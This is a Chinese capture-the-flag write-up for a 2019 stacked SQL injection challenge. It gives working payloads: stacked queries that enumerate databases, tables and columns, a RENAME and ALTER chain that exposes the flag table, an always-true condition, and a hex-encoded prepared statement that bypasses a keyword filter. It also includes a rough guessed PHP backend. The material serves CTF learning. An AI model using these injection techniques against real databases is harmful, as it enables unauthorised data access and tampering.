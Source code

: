 # \[强网杯 2019]随便注

## \[强网杯 2019]随便注

## 考点

* 堆叠注入
* MySQL操作库表函数
* 预编译注入

## wp

1. 打开靶机，随便提交，发现似乎是把 PHP 查询的原始结果之间返回了
2.  输入 select 发现了过滤语句，过滤了 select，update，delete，drop，insert，where 和 .

    `return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`
3. 测试一下有没有注入。`?inject=1'%23`，返回正常，字符型注入
4.  过滤了这么多关键词，尝试堆叠注入。`?inject=1';show databases;%23`，看到了所有的数据库

    <img src="https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb_supersql_1.png" alt="" data-size="original">
5.  再看一下所有的表。`?inject=1';show tables;%23`，1919810931114514 表和 words 表

    <img src="https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb_supersql_2.png" alt="" data-size="original">
6. flag 在全数字的表里，默认查询的是 words 表

```
   ?inject=1';show columns from `1919810931114514`;%23
   ?inject=1';show columns from `words`;%23
```

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/sql/6.png)

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/sql/7.png)

1. 既然没过滤 alert 和 rename，那就可以把表和列改名。先把 words 改为 words1，再把数字表改为 words，然后把新的 words 表里的 flag 列改为 id ，这样就可以直接查询 flag 了
2.  构造 payload 如下

    ```
    /?inject=1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;show columns from words;%23
    ```
3. 使用 `/?inject=1' or '1'='1` 访问一下即可获得 flag

### 小结

1. MySQL中反引号和单引号的区别与用法
   1. MySql 中用一对反引号来标注 SQL 语句中的标识，如**数据库名、表名、字段名**等
   2. 引号则用来标注语句中所引用的字符型常量或日期/时间型常量，即**字段值**
   3. 例如：select \* from \`username\` where \`name\`="peri0d"
2.  PHP 代码推测，这里只是一个大概的流程，和实际可能有出入。参照 sqli-labs 里的代码

    ```
    <?php
    function waf($inject){
    preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
    	die('return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);');
    }

    if(isset($_GET['inject'])){
    	$id = $_GET['inject'];
    	waf($id);
    	
    	$con1 = mysqli_connect($host,$dbuser,$dbpass,$dbname);
    	$sql = "select * from `words` where ;";
    	
    	/* execute multi query */
    	if (mysqli_multi_query($con1, $sql)){
    		/* store first result set */
    		$result = mysqli_multi_query($con1);
    		if ($result)
    		{
    			if($row = mysqli_fetch_row($result))
    			{
    			  var_dump($row);
    			}
    		
    		}
    		/* print divider */
    		if (mysqli_more_results($con1))
    		{
    			echo "<hr>";
    		}
    	}
    	mysqli_close($con1);
    }

    ?>
    ```
3. MySQL 的 show、rename 和 alter 命令
   1. show 可以用于查看当前数据库，当前表，以及表中的字段
   2. rename 用于修改 table 的名称
   3. alter 用于修改表中字段的属性
4. 攻击思路：默认查询 words 表，可以将数字表的名称改成 words，这样就可以 使用 or '1'='1 直接查询 flag 了
5. 第二个思路是利用预编译，先构造一个sql语句，然后执行它，payload转化成16进制绕过waf

```
1';
SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;
prepare execsql from @a;
execute execsql;#
```

这里的十六进制是

```
select * from `1919810931114514`
```
